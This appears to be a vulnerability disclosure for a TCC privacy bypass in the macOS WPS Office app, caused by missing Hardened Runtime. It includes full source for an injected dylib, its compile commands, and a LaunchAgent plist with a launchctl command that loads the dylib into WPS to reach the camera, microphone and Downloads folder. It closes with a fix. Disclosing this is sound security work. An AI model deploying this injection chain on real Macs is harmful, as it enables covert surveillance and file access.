


# Vulnerability Name: TCC Bypass via DYLD_INSERT_LIBRARY Injection

## Vulnerability Description
The Mac version of the WPS app does not enable the `Hardened Runtime (macOS Hardened Runtime)` signing option, which is a security mechanism designed to prevent code injection attacks (such as `DYLD_INSERT_LIBRARY injection`, `dylib hijacking`). In the absence of this protection, an attacker can load a specified malicious dylib into the WPS process, thereby inheriting WPS's access rights and bypassing the `TCC (Transparency, Consent and Control)` mechanism.

As a document and office application, WPS requires users to grant more TCC permissions to access sensitive components such as cameras, microphones, and user directories (Documents, Downloads, Library, etc.). These TCC permissions are designed to protect user privacy and prevent unauthorized access, even the root account of macOS cannot directly access them. However, due to the lack of Hardened Runtime protection, an attacker can obtain the TCC permissions that WPS has been granted by loading a specified malicious dylib, effectively bypassing the privacy protection mechanism of macOS.



## Vulnerability Hazards
When the Hardened Runtime signature option is not enabled, TCC bypass can be achieved through DYLD_INSERT_LIBRARY injection, which brings the following business hazards:

### Privacy Leakage: After an attacker successfully exploits this vulnerability, they can achieve:
- Access the user's camera, microphone, and other hardware components without additional prompts
- Read the contents of protected directories that WPS has access to, such as the user's Downloads folder
- Access other resources that may be authorized to WPS through the TCC mechanism

### Intrusion Threats:
- Malicious code is injected into the WPS process
- The injected code will run with the same permissions as WPS
- Such attacks can bypass macOS's built-in security controls

### Data Security:
- Business sensitive information processed by WPS may be leaked
- Personal user data and files accessible by WPS may be exposed
- Unauthorized access to hardware (such as cameras and microphones) may lead to surveillance and privacy violations

## Reproduction steps
1. Download the WPS app from the Apple Mac Store and use the codesign tool to check its code signing information and authorization configuration. The results show that WPS does not enable Hardened Runtime, making it vulnerable to code injection attacks. In addition, as a document and office application, WPS requires extensive TCC permissions, such as access to the camera, microphone, and Downloads directory. When necessary, WPS can also request additional access to other sensitive locations. Even the root account of macOS cannot access these protected resources without user approval. However, attackers can bypass the TCC mechanism and access the Downloads directory, camera, microphone, and other sensitive resources without the user's knowledge or approval.

```bash
adler@adlers-Mac-mini /Applications % codesign -dv --entitlements :- /Applications/wpsoffice.app | xmllint --format -
Executable=/Applications/wpsoffice.app/Contents/MacOS/wpsoffice
Identifier=com.kingsoft.wpsoffice.mac.global
Format=app bundle with Mach-O universal (x86_64 arm64)
CodeDirectory v=20400 size=1157 flags=0x0(none) hashes=25+7 location=embedded
Signature size=4797
Info.plist entries=44
TeamIdentifier=2G98R5QYU5
Sealed Resources version=2 rules=13 files=7168
Internal requirements count=1 size=236
warning: Specifying ':' in the path is deprecated and will not work in a future release
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.application-identifier</key>
    <string>2G98R5QYU5.com.kingsoft.wpsoffice.mac.global</string>
    <key>com.apple.developer.applesignin</key>
    <array>
      <string>Default</string>
    </array>
    <key>com.apple.developer.team-identifier</key>
    <string>2G98R5QYU5</string>
    <key>com.apple.security.app-sandbox</key>
    <true/>
    <key>com.apple.security.application-groups</key>
    <array>
      <string>2G98R5QYU5.wpsoffice</string>
    </array>
    <key>com.apple.security.device.audio-input</key>
    <true/>
    <key>com.apple.security.device.camera</key>
    <true/>
    <key>com.apple.security.device.microphone</key>
    <true/>
    <key>com.apple.security.files.bookmarks.app-scope</key>
    <true/>
    <key>com.apple.security.files.downloads.read-write</key>
    <true/>
    <key>com.apple.security.files.user-selected.read-write</key>
    <true/>
    <key>com.apple.security.network.client</key>
    <true/>
    <key>com.apple.security.network.server</key>
    <true/>
    <key>com.apple.security.print</key>
    <true/>
    <key>com.apple.security.scripting-targets</key>
    <dict>
      <key>com.apple.mail</key>
      <array>
        <string>com.apple.mail.compose</string>
      </array>
    </dict>
    <key>com.apple.security.temporary-exception.files.absolute-path.read-only</key>
    <array>
      <string>/Library/TeX/</string>
      <string>/usr/local/</string>
    </array>
    <key>keychain-access-groups</key>
    <array>
      <string>2G98R5QYU5.*</string>
    </array>
  </dict>
</plist>
```

2. Create a custom dylib to verify access to the microphone, camera, and Downloads folder. The code is as follows：

```c
//Compile Commands gcc -dynamiclib -framework Foundation -framework AVFoundation wps.m -o wps.dylib 

#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface TCCPermissionChecker : NSObject

+ (BOOL)hasMicrophoneAccess;
+ (BOOL)hasCameraAccess;
+ (BOOL)hasDownloadsAccess;

@end

@implementation TCCPermissionChecker

+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] 具备麦克风访问权限。");
        return YES;
    } else {
        NSLog(@"[-] 不具备麦克风访问权限。");
        return NO;
    }
}

+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Camera access permission");
        return YES;
    } else {
        NSLog(@"[-] No Camera access permission");
        return NO;
    }
}

+ (BOOL)hasDownloadsAccess {
    NSString *command = @"ls -lO /Users/adler/Downloads";
    NSTask *task = [[NSTask alloc] init];
    [task setLaunchPath:@"/bin/sh"];
    [task setArguments:@[@"-c", command]];

    NSPipe *pipe = [NSPipe pipe];
    [task setStandardOutput:pipe];
    [task launch];
    NSFileHandle *fileHandle = [pipe fileHandleForReading];
    NSData *outputData = [fileHandle readDataToEndOfFile];
    NSString *outputString = [[NSString alloc] initWithData:outputData encoding:NSUTF8StringEncoding];
    NSLog(@"用户的Downloads文件夹列表:\n%@", outputString);
    return YES;
}


@end


__attribute__((constructor))
static void wps(int argc, const char **argv) {
    NSLog(@"[+] 恶意dylib成功注入!\n");
    [TCCPermissionChecker hasMicrophoneAccess];
    [TCCPermissionChecker hasCameraAccess];
    [TCCPermissionChecker hasDownloadsAccess];
}
```

Compile it into a dylib file:
```bash
adler@adlers-Mac-mini tcc-exp % nano wps.m
adler@adlers-Mac-mini tcc-exp % gcc -dynamiclib -framework Foundation -framework AVFoundation wps.m -o wps.dylib 
```

Create a file named com.wps.launcher.plist in the ~/Library/LaunchAgent/ directory. It specifies the DYLD_INSERT_LIBRARIES environment variable, the program and parameters, and saves the output file.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.wps.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/Users/adler/tcc-exp/wps.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
          <string>/Applications/wpsoffice.app/Contents/MacOS/wpsoffice</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/wps.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/wps.log</string>
</dict>
</plist>
```

4. Before running the exploit, make sure that Downloads is currently inaccessible. Usually, attackers control the victim's Mac device through reverse shell or C2, but attackers cannot directly access personal folders such as Downloads, let alone the camera and microphone. Then, run the command `launchctl load ~/Library/LaunchAgent/com.wps.launcher.plist`, and then view the output file `/tmp/wps.log`. We can see that the loaded dylib can access the microphone, camera, and Downloads folder.



## Fix
You may think that the lack of code signing for Hardened Runtime is not a vulnerability, but in fact, some other popular applications have had the same and similar vulnerabilities, and they have all been recognized and assigned CVE numbers by the manufacturers. Either they lack the Hardened Runtime option like WPS, or they have too loose authorization configuration. As a result, attackers can bypass TCC and obtain highly private resources of users by loading malicious dylibs.

- CVE-2020-24259: TCC bypass vulnerability in Signal.
- CVE-2023-26818: TCC bypass vulnerability in Telegram.

Especially for applications like WPS that are granted multiple powerful TCC permissions, this significantly increases the risk level, making WPS a prime post-exploitation target for attackers to achieve unauthorized access to sensitive private information and hardware components.

The solution to this problem is very straightforward, just enable the Hardened Runtime option. With this simple configuration change, the risk of code injection can be significantly reduced and the overall security of the application can be improved.
